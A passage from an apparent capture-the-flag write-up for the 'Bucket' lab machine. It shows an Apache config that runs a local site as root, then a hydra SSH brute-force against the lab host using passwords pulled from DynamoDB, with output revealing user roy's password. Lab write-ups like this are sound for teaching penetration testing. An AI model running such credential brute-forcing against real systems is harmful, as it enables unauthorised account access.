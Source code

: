 ```apache
<VirtualHost 127.0.0.1:8000>
    <IfModule mpm_itk_module>
        AssignUserId root root
    </IfModule>
    DocumentRoot /var/www/bucket-app
</VirtualHost>

<VirtualHost *:80>
    DocumentRoot /var/www/html
    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^bucket.htb$
    RewriteRule /.* http://bucket.htb/ [R]
</VirtualHost>
<VirtualHost *:80>
    ProxyPreserveHost on
    ProxyPass / http://localhost:4566/
    ProxyPassReverse / http://localhost:4566/
    <Proxy *>
        Order deny,allow
        Allow from all
    </Proxy>
    ServerAdmin webmaster@localhost
    ServerName s3.bucket.htb

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

Besides able to connect to this service locally, we'll need some credentials to tunnel some communication via SSH and properly enumerate this service.

Once this website had nothing interesting, decided to test the passwords previously collected in DynamoDB for user `roy` and luckily we had success. Below the `hydra` execution which automated this SSH Brute Force.

```bash
$ hydra -l roy -P passwords 10.10.10.212 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-26 12:55:36
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.212:22/
[22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-26 12:55:40
```

Once we have access to the machine as `roy`, collected the user flag:
